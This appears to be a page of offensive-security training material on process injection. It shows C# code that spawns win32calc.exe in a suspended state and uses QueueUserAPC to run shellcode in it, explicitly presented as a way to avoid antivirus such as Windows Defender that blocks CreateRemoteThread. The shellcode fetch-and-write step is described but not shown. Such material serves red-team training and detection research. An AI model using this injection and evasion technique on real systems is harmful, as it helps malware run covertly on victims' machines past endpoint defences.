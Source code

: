 # QueueUserAPC

CreateRemoteThread is very heavily scrutinised and AVs such as Windows Defender tend to block it by default.  **QueueUserAPC** is another API that we can use to execute shellcode in a process.  There are two main ways to use it:

1.  Spawn a process in a suspended state, queue the APC on the primary thread and resume.
2.  Enumerate threads of an existing process and queue the APC on one of them.
    1.  Wait for that thread to enter an alerted state, or
    2.  Force that thread to enter an alerted state.

The first option of spawning a process is the most straight forward.

1.  Spawn a process as before, but pass the CREATE_SUSPENDED flag (documented [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)).  If the process fails to start, just throw an exception as we can't continue further.
```cs

var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);

var pa = new Win32.SECURITY_ATTRIBUTES();
pa.nLength = Marshal.SizeOf(pa);

var ta = new Win32.SECURITY_ATTRIBUTES();
ta.nLength = Marshal.SizeOf(ta);

var pi = new Win32.PROCESS_INFORMATION();

var success = Win32.CreateProcessW(
    "C:\\Windows\\System32\\win32calc.exe",
    null,
    ref ta,
    ref pa,
    false,
    0x00000004, // CREATE_SUSPENDED
    IntPtr.Zero,
    "C:\\Windows\\System32",
    ref si,
    out pi);

// If we failed to spawn the process, just bail
if (!success)
    throw new Win32Exception(Marshal.GetLastWin32Error());
```

2.  Fetch the shellcode and write it into the target process.

3.  Call the QueueUserAPC API.  Give it the location of the shellcode in memory and the handle to the process' primary thread.
```cs
// Queue the APC
Win32.QueueUserAPC(
    baseAddress, // point to the shellcode location
    pi.hThread,  // primary thread of process
    0);
```
